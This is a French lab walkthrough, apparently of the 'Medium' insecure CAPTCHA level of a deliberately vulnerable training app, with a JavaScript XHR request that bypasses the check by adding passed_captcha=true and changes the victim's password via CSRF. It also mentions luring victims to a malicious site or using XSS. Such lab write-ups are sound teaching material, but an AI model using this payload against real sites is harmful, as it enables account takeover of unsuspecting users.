




# Niveau "Medium"

Voyons les modifications apportées à ce niveau "Medium" :



L'étape de confirmation est toujours présente :



La première requête ne semble pas différente :



La seconde requête contient un nouveau paramètre nommé `passed_captcha` qui a pour valeur `true` :



Aucune difficulté pour contourner cette protection, on adapte sensiblement notre précédente requête **`XHR`** pouvant être utilisée pour une attaque CSRF :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&passed_captcha=true&Change=Change");
```


Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique \(faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc\)


